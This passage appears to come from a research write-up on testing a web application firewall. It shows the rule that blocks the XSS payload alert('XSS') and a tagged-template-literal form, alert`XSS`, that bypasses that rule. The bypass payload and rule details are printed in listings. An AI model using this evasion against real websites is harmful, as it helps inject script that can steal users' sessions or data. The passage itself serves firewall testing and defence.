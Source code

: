 \subsection{Tagged Template Literals}
As you can see in Listing~\ref{lst:alertXSSblocked}, the payload \verb|alert('XSS')| is being blocked by the tested firewall.
After substituting the function call using \verb|('XSS')| with a Tagged Template Literal in the form of \verb|alert`XSS`|, the payload successfully bypasses the firewall and reaches the web server. (Listing~\ref{lst:alertXSSbypass}) 

\begin{lstlisting}[style=ruleStyle, language=XML, caption=alert("XSS") blocked, label=lst:alertXSSblocked]
<payload>alert("XSS")</payload>
<file>"rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"alert("</MatchedData>
\end{lstlisting}

\begin{lstlisting}[style=ruleStyle, language=XML, caption=alert`XSS` bypass, label=lst:alertXSSbypass]
<payload>alert("XSS")</payload>
<bypass>alert`XSS`</payload>
\end{lstlisting}
